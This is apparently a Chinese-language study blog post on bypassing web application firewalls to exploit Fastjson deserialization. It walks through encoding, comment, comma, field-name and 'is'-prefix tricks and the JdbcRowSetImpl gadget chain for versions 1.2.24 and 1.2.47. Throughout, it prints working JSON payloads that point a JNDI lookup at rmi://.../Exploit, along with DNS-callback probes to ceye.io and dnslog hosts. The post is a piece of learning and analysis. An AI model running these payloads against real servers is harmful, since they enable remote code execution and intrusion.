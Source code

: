 
# Fastjson的Waf绕过

Fastjson算是RCE最常碰到的漏洞了，但是除了利用外对其知之甚少，因此学习一下，这里主要结合Y4tacker师傅的文章进行分析学习。

首先初始exp类似于这样：

[![OfYuUU.jpg](https://s1.ax1x.com/2022/05/16/OfYuUU.jpg)](https://imgtu.com/i/OfYuUU)

## 1.空白字符绕过

在键值对外添加空白字符时会被代码过滤，可用于绕waf

[![OfYnET.jpg](https://s1.ax1x.com/2022/05/16/OfYnET.jpg)](https://imgtu.com/i/OfYnET)

Y4tacker师傅给出了fastjson自身过滤空白字符的代码

 - [ ] com.alibaba.fastjson.parser.JSONLexerBase#skipWhitespace
       
       public final void skipWhitespace()
       
       { while(true)
       
       { while(true)
       
       { if (this.ch <= '/')
       
       { if (this.ch == ' ' || this.ch == '\r' || this.ch == '\n' ||
       this.ch == '\t' || this.ch == '\f' || this.ch == '\b')
       
       { this.next(); continue; }
       
       if (this.ch == '/') {
       
       this.skipComment();
       
       continue; } }
       
       return; } } }

## 2.添加逗号

FastJson中有个默认的Feature是开启的 AllowArbitraryCommas ，这允许我们⽤多个逗号

还是师傅分析的

[![OfY6qP.png](https://s1.ax1x.com/2022/05/16/OfY6qP.png)](https://imgtu.com/i/OfY6qP)

添加的位置在键值对两边，在冒号两边添加会出错

[![OfYebV.jpg](https://s1.ax1x.com/2022/05/16/OfYebV.jpg)](https://imgtu.com/i/OfYebV)

## 3.字段名不加引号

默认开启的Feature， AllowUnQuotedFieldNames ，但是只在恢复字段的过程调⽤ 当中有效果

师傅分析的：

[![OfYfPg.png](https://s1.ax1x.com/2022/05/16/OfYfPg.png)](https://imgtu.com/i/OfYfPg)

> {"zeo":{"@type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}
> 
> ||
> 
> \/
> 
> {"zeo":{"@type":"java.net.Inet4Address",val:"r.qsu9q8.ceye.io"}}

[![OfYZD0.jpg](https://s1.ax1x.com/2022/05/16/OfYZD0.jpg)](https://imgtu.com/i/OfYZD0)

## 4. @type后的值第⼀个引号可以替换为其他字符

[![OfYgVf.png](https://s1.ax1x.com/2022/05/16/OfYgVf.png)](https://imgtu.com/i/OfYgVf)

因此替换引号为任意字符即可正常执行

[![OfYVuq.jpg](https://s1.ax1x.com/2022/05/16/OfYVuq.jpg)](https://imgtu.com/i/OfYVuq)

## 5.编码绕过

⾸先在 com.alibaba.fastjson.parser.JSONLexerBase#scanSymbol ,当中可以看见， 如果遇到了 \u 或者 \x会有解码操作

[![OfYyrt.png](https://s1.ax1x.com/2022/05/16/OfYyrt.png)](https://imgtu.com/i/OfYyrt)

大致是u的情况为读取四个字符排列，以16进制转字符，至于为什么hash*31，是考虑了计算机的计算方法，参考[hashCode 为什么乘以 31?深入理解 hashCode 和 hash 算法_小七会喷火的博客-CSDN博客](https://blog.csdn.net/Javabaibai/article/details/112394217)

v的情况没法控制，不考虑；x的情况则是读取两个字符，计算16进制再转字符

 - [ ] 因此两种情况就是Unicode和ASCII值的转换：
       
       {"zeo":{"@type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}
       
       {"\u0396eo":{"\x40type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}

## 6. 对字段添加多个下划线或者减号

1.2.36版本前在 com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#parseFie ld 解析字段的key的时候，调⽤了 smartMatch

[![OfYDxA.png](https://s1.ax1x.com/2022/05/16/OfYDxA.png)](https://imgtu.com/i/OfYDxA)

> {"a": {"@type": "java.lang.Class","val":
> 
> "com.sun.rowset.JdbcRowSetImpl"},"b": {"@type":
> 
> "com.sun.rowset.JdbcRowSetImpl","d_a_taSourceName":
> 
> "rmi://127.0.0.1:1099/Exploit","autoCommit": true}}

1.2.36版本后相反会忽略“-”和"_"，因此利用方法类似

## 7. 属性前添加is

在那个基础上,还是在 smartMatch 当中可以看见，如果前缀有 is ，会去掉 is

[![OfYsKI.png](https://s1.ax1x.com/2022/05/16/OfYsKI.png)](https://imgtu.com/i/OfYsKI)

> {"a": {"@type": "java.lang.Class","val":
> 
> "com.sun.rowset.JdbcRowSetImpl"},"b": {"@type":
> 
> "com.sun.rowset.JdbcRowSetImpl","isdataSourceName":
> 
> "rmi://127.0.0.1:1099/Exploit","isautoCommit": true}}

## 8.注释

Y4tacker师傅给出的一种猜想，实际情况我暂时没有成功

com.alibaba.fastjson.parser.JSONLexerBase#nextToken()

解析时如果开头不为“{”或“[”时，进入nextToken()方法，

[![OfY2a8.png](https://s1.ax1x.com/2022/05/16/OfY2a8.png)](https://imgtu.com/i/OfY2a8)

[![OfYRIS.png](https://s1.ax1x.com/2022/05/16/OfYRIS.png)](https://imgtu.com/i/OfYRIS)

> /*\u001a{/*y4tacker*/"@type":"com.sun.rowset.JdbcRowSetImpl","dataSource
> Name":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}*/

其他的注释有：/**/和//，可以插入注释打乱Waf的正则

> {"zeo":{/_adawdawdaw_/"@type":"java.net.Inet4Address","val":"t2t.507a43c8.dns.1433.eu.org."}}

## 9.写在最后的分析

最后再分析几个fastjson的利用链

参考：[fastjson漏洞学习分析](https://www.jianshu.com/p/1ed027080459)

这里没有下载fastjson的包去断点调试，主要依靠文章分析一下

### JdbcRowSetImpl利用链

1.2.24版本：

DefaultJSONParser中，解析json开始，key为@type则加载对应class，autoCommit为true则调用this.connect，connect()方法进而继续建立dataSource去调用lookup()方法，此时请求到恶意的rmi服务通过lookup方法就实例化了这个恶意类

> { "@type":"com.sun.rowset.JdbcRowSetImpl",
> "dataSourceName":"rmi://ip:port/Exploit", "autoCommit":true }

补丁后的绕过：

> {"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://ip:port/Exploit"}}
> 使用不在黑名单的类进行绕过{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://ip:port/Exploit","autoCommit":true}使用L和;去匹配头尾规则绕过黑名单

1.2.47版本：

java.lang.Class开始，loadclass->val作为对象进行加载，加载com.sun.rowset.JdbcRowSetImpl类，loadclass函数中，当cache为true是，会将JdbcRowSetImpl类加载到map缓存中，到这第一个类加载结束。第二个类开始，class为空（不存在）时，会从mapping中去找。在第一个json数据处理后，JdbcRowSetImpl类已经被加载到map缓存，然后直接就返回class的类。

> { "a":{ "@type":"java.lang.Class",
> "val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{
> "@type":"com.sun.rowset.JdbcRowSetImpl",
> "dataSourceName":"rmi://ip:9999/Test", "autoCommit":true } }
